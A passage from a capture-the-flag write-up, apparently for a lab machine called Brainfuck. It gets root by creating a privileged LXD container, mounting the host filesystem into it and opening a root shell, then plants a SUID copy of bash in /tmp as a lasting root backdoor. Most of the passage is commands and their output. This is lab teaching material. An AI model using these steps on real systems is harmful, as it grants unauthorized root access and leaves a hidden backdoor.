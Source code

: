 - Initialize the image inside a new container:

```shell
orestis@brainfuck:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
```

- Mount the container inside the `/root` directory:

```shell
orestis@brainfuck:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
```

- Start the container and get an interactive shell:

```shell
orestis@brainfuck:~$ lxc start ignite
orestis@brainfuck:~$ lxc exec ignite /bin/sh
~ # whoami;hostname;id;ip a
root
ignite
uid=0(root) gid=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP qlen 1000
    link/ether 00:16:3e:9c:38:66 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::216:3eff:fe9c:3866/64 scope link 
       valid_lft forever preferred_lft forever
```

**Now, we should be able to get the root flag in `/mnt/root/root`:**
```shell
~ # ls -lah /mnt/root/root/
total 32K    
drwx------    4 root     root        4.0K Oct  3  2022 .
drwxr-xr-x   23 root     root        4.0K Sep 15  2022 ..
lrwxrwxrwx    1 root     root           9 Sep 15  2022 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Oct 22  2015 .bashrc
drwx------    2 root     root        4.0K May  5  2017 .cache
-rw-------    1 root     root          66 Oct  3  2022 .mysql_history
drwxr-xr-x    2 root     root        4.0K Oct  3  2022 .nano
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
-r--------    1 root     root          33 Apr 29  2017 root.txt
```

**But before we do that, I'll copy the Bash shell and set it to SUID sticky bit. So that we have a root shell on the target system:**
```shell
~ # cp /mnt/root/bin/bash /mnt/root/tmp/root_bash
~ # chmod +s /mnt/root/tmp/root_bash 
~ # exit
orestis@brainfuck:~$ ls -lah /tmp/root_bash 
-rwsr-sr-x 1 root root 1014K Jun  4 16:35 /tmp/root_bash
```
